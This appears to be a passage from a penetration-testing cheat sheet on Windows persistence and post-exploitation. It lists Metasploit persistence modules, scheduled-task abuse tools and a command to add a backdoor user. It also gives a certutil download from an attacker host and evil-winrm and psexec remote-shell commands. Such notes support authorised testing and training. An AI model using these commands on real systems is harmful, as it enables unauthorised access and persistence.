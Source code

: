 
<div style="page-break-after: always;"></div>

# Windows persistence
---

## Metasploit persistence scripts

- Dangerous to run, leaves ports exposed
- Run `persistence -h`
- `exploit/windows/local/persistence`
- `exploit/windows/local/registry_persistence`

## Use scheduled tasks

- `scheduleme`
- `schataskabuse`

## Or just add a user..

```
 net user <USERNAME> <PASSWORD> /add
```

<div style="page-break-after: always;"></div>

# Windows misc
---

- Get file from a server (eq to "wget" on Linux)

```
certutil -urlcache -f http://<IP>:<PORT>/<FILENAME> <OUTPUT_FILENAME>
```

## Hosts file

-> C:\Windows\System32\drivers\etc\hosts

## Get shell w/evil-winrm

```
evil-winrm -u '<USERNAME>' -p '<PASSWORD>' -i <IP>
```

- Get a shell with psexec.py from Linux attack box (authenticated)

```
psexec.py <USERNAME>@<TARGET_IP> cmd.exe
```

## Find stored WiFi passwords
